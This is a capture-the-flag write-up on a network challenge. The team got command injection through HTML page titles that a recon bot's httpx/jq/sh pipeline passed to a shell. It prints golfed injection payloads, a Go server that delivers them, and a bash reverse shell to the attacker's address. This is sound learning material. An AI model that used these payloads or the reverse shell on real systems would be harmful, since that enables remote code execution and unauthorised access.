


# InsoBot (misc,network)

note: this writeup was written long after the actual CTF -
the platform was available only on the local on-site network, so some stuff might be a bit vague

### recon

in the description we don't get any files or links, only the info that someone's scanning the network.
after launching wireshark, we found a *ton* of ARP queries for the local network,
so after filtering those out, we were left with a handful of packets.
some of them were from the cisco switch we had on our desk, others from the fortinet hardware handling the network,
but after a while we noticed some incoming TCP packets:



we ran a simple HTTP server, and to our surprise, started getting valid HTTP requests:
```console
$ python3 -m http.server 9991
Serving HTTP on 0.0.0.0 port 9991 (http://0.0.0.0:9991/) ...
127.0.0.1 - - [03/Apr/2023 18:39:00] code 400, message Bad request version ('À\\x13À')
127.0.0.1 - - [03/Apr/2023 18:39:00] "\x16\x03\x01\x00î\x01\x00\x00ê\x03\x03#ÐO#\x04B\x9dä¯\x8c"Ó0\x0f3®À£\x10H\x0cEgkqeSÓìÂÙ! \x94J·u>\x98\x82\x1bÉ)OÍÛ\x88£\x85¹B\x0b\x89\x9dß\x1f0\x1f×c\x96TÎKë\x00&À+À/À,À0̨̩À\x09À\x13À" 400 -
127.0.0.1 - - [03/Apr/2023 18:39:00] "GET / HTTP/1.1" 200 -
```



### reading weird shell code

following to https://github.com/GigaTakos/Reconator, we find two shell scripts:
`main.sh`, which is less interesting:
```sh
# HACK THE WORLD
mapcidr -cidr 0.0.0.0/8 -o targets.txt

# <snip>

while true;
do 
	cat targets.txt	| parallel -j90 sudo docker run --rm reconator bash /opt/reconator.sh {}
done
```

and `reconator.sh`, that does all the heavy lifting:
```sh
# BUG BOUNTY RECON AWESOME ONLINER PIPELINE

cat <<EOF > services.txt
tcp:9990
tcp:9991
tcp:9992
EOF

echo "$1"
echo "$1" | /root/go/bin/httpx -nfs -H "X-tool: github.com/GigaTakos/Reconator" -p $(cat services.txt | awk -F ":" '{print $2}' | sort -u | tr '\n' ',' | sed 's/,$//') -silent -t 1 -json | jq -c '. | "bbrf url add '"'"'\(."url"|@sh) \(."status-code") \(."content-length")'"'"' -t last_update:$(date +%s) -t http_title:\(."title"[0:15]|@sh)"' | sed -E 's| null| 0|g' | sed 's/\\"//g' | xargs -I {} sh -c 'echo {}'
```

( there's also a dockerfile, but it's safe and not very interesting )

we noticed that while the inner script outputs `bbrf ...` commands, they're not being executed in the repo - the orgs didn't specify what's happening, so let's assume they're just being saved somewhere.

we can simplify the command a bit, replacing the convoluted `cat services.txt` subshell with what it returns and formatting it a little:
```sh
echo "$1" | \
    /root/go/bin/httpx -nfs \
        -H "X-tool: github.com/GigaTakos/Reconator" \
        -p "9990,9991,9992" \
        -silent -t 1 -json | \
    jq -c '. | "bbrf url add '"'"'\(."url"|@sh) \(."status-code") \(."content-length")'"'"' -t last_update:$(date +%s) -t http_title:\(."title"[0:15]|@sh)"' | \
    sed -E 's| null| 0|g' | \
    sed 's/\\"//g' | \
    xargs -I {} sh -c 'echo {}'
```

setting the quote crimes in `jq` aside, here's what's going on:
- [`httpx`][1] scans the selected host
- JSON results are being passed to `jq`, which picks the following arguments:
  + `.url`
  + `.status-code`
  + `.content-length`
  + `.title`
- nulls are getting replaced with zeroes
- quotes are getting unquoted..?
- all of that is getting passed to `sh -c 'echo ...'`

as for exploitation ideas - the target was obviously that `sh -c` command.
unfortunately, there wasn't much room for an exploit:
status code and content length were returned as ints, so we couldn't do any HTTP here;
the URL was the input one, redirects didn't change it, so... the only field we could reliably control was the title, parsed from HTML.

having that, we tried running the tool with the following HTML:
```html
<html><head><title>my very long page title</title>
```
and got expected results
```console
$ podman run --network=host --rm reconator bash /opt/reconator.sh 10.10.0.212
10.10.0.212
bbrf url add http://10.10.0.212:9991 0 0 -t last_update:1680542404 -t http_title:my very long pa
```

the shell escaping also worked, kinda:
```html
<html><head><title>$(id)</title>
```
```console
bbrf url add http://10.10.0.212:9991 0 0 -t last_update:1680542483 -t http_title:$(id)
```

we spent way too much time reading jq source code to see if we can get around the shell escaping, when suddenly:
```html
<title>'$(id)</title>
```
```console
sh: 1: Syntax error: Unterminated quoted string
```

...oh? let's try to terminate it then:
```html
<html><head><title>'$(id)'</title>
```
```console
bbrf url add http://10.10.0.212:9991 0 0 -t last_update:1680543290 -t http_title:\uid=0(root) gid=0(root) groups=0(root)\
```

we got shell exec! sadly, not very useful - the payload was still getting truncated at 15 characters,
so even using `\`\`` we had 11 characters left for our exploit
( technically, 33, as we could use 3 payloads - but each payload had to be contained in 11 characters ).

### golfing the payload

`wget 10.10.0.212` was definitely too long, but maybe we can make our IP shorter?
```console
$ doas ip addr flush dev eth0
$ doas ip addr add 10.10.0.6/16 dev eth0
$ ping 10.10.0.1
PING 10.10.0.1 (10.10.0.1) 56(84) bytes of data.
64 bytes from 10.10.0.1: icmp_seq=1 ttl=64 time=1.84 ms
```
😳

`wget 10.10.6`...one character too long!! decimal or hex notation wasn't shorter either...
at this point we were stuck - we even bought a short domain, only to realize that [outgoing 53 was blocked on the server][2] lol;
went through all the executables in the container, didn't find anything shorter than wget that could fetch a file

the breakthrough came from *dominikoso*, who suggested that maybe we could copy executables to the local directory,
thus allowing us to use a wildcard such as `wg*` to run it.. and it worked!

after refining the payloads a little, we ended up with the following:
- `cp /b*/w* .` to copy all executables starting with `w` to working directory
- `wg* 10.10.6` to download the index.html file, which was actually a script
- `bash *ml` to run it

there was one more drawback: the ports were queried in a random order; we wrote a small go server to handle that:
```go
package main

import (
	"fmt"
	"net/http"
)

var i = 0
var resps = []string{"cp /b*/w* .", "wg* 10.10.6", "bash *ml"}

func GenerateResp(x string) []byte {
	return []byte(`HTTP/1.1 200 OK
Content-Type: text/html
Connection: close

<html><body><title>'` + "`" + x + "`" + `'</title></body></html>

`)

}

func main() {
	handler := func(w http.ResponseWriter, r *http.Request) {
		fmt.Printf("writing resp %d to client %s as %s\n", i, r.RemoteAddr, r.Host)
		w.Write(GenerateResp(resps[i]))
		i++
		i %= 3
	}

	go http.ListenAndServe(":9990", http.HandlerFunc(handler))
	go http.ListenAndServe(":9991", http.HandlerFunc(handler))
	go http.ListenAndServe(":9992", http.HandlerFunc(handler))

	fmt.Println("runnning")

	select {}
}
```

the actual script was just a simple reverse shell (which had to be hosted on port `443` due to the previously mentioned server firewall):
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.10.0.6/443 0>&1
```

after that, all it took was one `cat /flag/flag` and we finally solved the challenge!~

[1]: https://github.com/projectdiscovery/httpx
[2]: https://github.com/GigaTakos/Reconator/blob/main/README.md
